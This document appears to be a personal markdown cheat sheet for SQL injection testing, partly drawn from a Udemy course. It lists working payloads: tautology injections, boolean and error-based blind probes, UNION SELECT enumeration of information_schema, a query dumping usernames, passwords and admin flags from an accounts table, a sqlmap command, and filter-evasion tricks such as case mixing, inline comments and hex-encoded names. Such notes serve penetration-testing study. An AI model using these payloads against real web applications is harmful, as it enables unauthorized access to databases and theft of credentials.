 
## SQL Testing :


- __Define__ all the user inputs and fields 

- __Confirm__ the web app backend runs SQL. One way of confi rming that the application is interacting with a backend
              database is to submit the SQL wildcard character % in a given parameter

- __Submit a single quotation__ mark as the item of data you are targeting.


- Observe whether an error occurs, or whether the result differs from the original in any other way.
  

- __submit two single quotation__ marks together for testing. Sometimes one single quote is not enough to show the error.


__Basic Payloads___


    >> ' OR 1=1 ;--
    
    >> ') OR 1=1; --
    
    
- __URL encodings__ are necessary whether you are editing the parameter’s  value directly from your browser, with an intercepting 
                    proxy, or through any other means.
    
    

&nbsp; 
 &nbsp; 
 &nbsp; 
   
### Blind SQL : 

This type of SQL injection is based on booleans : True or False .


- ' and 'a'='a

- ' and 'a'='b

- ' and substring(@@version,1,1)='5   &nbsp; |  &nbsp; find the version of the db


if you get a error means that SQL vulnerability is error based, if not means blind SQl.

For Blind SQL, we need to focus on the behavior of the application and try different queries :

>>> ' and 'a'='a    |  if data displayed mean that there is SQL vulnerability 


>>> ' UNION SELECT null;-- - |  this command is used to enumerate the database in order to know the number of columns it has


>>>  ' UNION SELECT "else1";-- - | test the query with string,or intger to see the type of data in the columns

>>>> 99999 ' UNION SELECT null;-- - |  to display our entered data on the fields


>>>  99999 UNION SELECT @@version;| @@version is to know the version of the db

>>>




Automate the process of SQL blind
>> script 

&nbsp; 
 &nbsp; 
 &nbsp; 
   
### Band SQL:

- ' and 'a'='a

- ' and 'a'='b

- 9999' UNION SELECT name,222,'else1' FROM master.syslogin; --

### Error based SQL:

- 1 or db_name()=1);

- 1 or db_name(0)=1) | increase the number until the database does not show any errors

- 

 
 &nbsp; 
 &nbsp; 
 &nbsp; 
   
### SQLmap:

- sqlmap  &nbsp; -u URL  &nbsp; -p search  &nbsp; --technique=U |  &nbsp; U for Union Selection



## [PentesMonkey CheatSheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

 &nbsp; 
 &nbsp; 
 &nbsp; 
------------------------------------------------------------------------------------------------------------------------------

## [Notes from Udemy Course]

>> http://www.site.com/news/php=7' order by 1 # |  &nbsp;  use order by 1 followed by # as a comment 

__URL Encoding__:  http://www.site.com/news/php=7' order by 1 %23

order by shows how many columns in the DB

 &nbsp; 
 &nbsp

>> ' union select 1, table_name, null, null, null, 5 from Infromation_schema.tables where table_schema = 'owasdb'

__information_schema__ is a default schema in every database

__table_schema__ is the database name 

__table_name__ is the name of the table 


The above SQL command should return the name of the schemas in the database 

 &nbsp; 
 &nbsp;
 
>>>> ' union select 1, column_name, null, null, null, 5 from Infromation_schema.columns where table_name = 'accounts'

>>> ' union select username, pass, is_admin from 'accounts'


&nbsp; 
&nbsp;

### Blind SQL:

Every type of injection has different discovery methods. for the Blind SQL, booleans are the key players in understanding 

whether the web app is vulnerable to the injections


>> 1' and 1=1 &nbsp; | nbsp; True 

>> 1' and 1=0 &nbsp; 
|  &nbsp; False 


>> 1' order by 1 &nbsp; 
|  &nbsp; True


>> 1' order by 10000 &nbsp; 
| &nbsp; False



__Note:__

- The exploitation part is similar to all other types of SQL injections 

- When pentesting a web application, always start with the Blind Injections as they are the complex ones, and can show

  the behavior of the application. The error based are very clear and straightforward, as they show the outputs on 

  the screen 



&nbsp;

__URL encoding of sql injection:__


- to pass certain filter sometimes it is important to convert the custom injection to URL encoding 


- Sometimes quotes or additional characters are not valid, removing them would inject the app


- Convert database names to hex in order to bypass the filter


>>  union select 1, column_name, null, null, null, 5 from Infromation_schema.columns where table_name = 0x769166


__Other ways to bypass the filters__

&nbsp;

- Spaces and some statements are filtered

>> union select 1, 2, 3 %23

>> uNioN+sEleCt+1,2+%23

>> uNioN/**/sEleCt/**/1,2/**/%23


---------------------------------------------------------------------------------------------------------------------------------
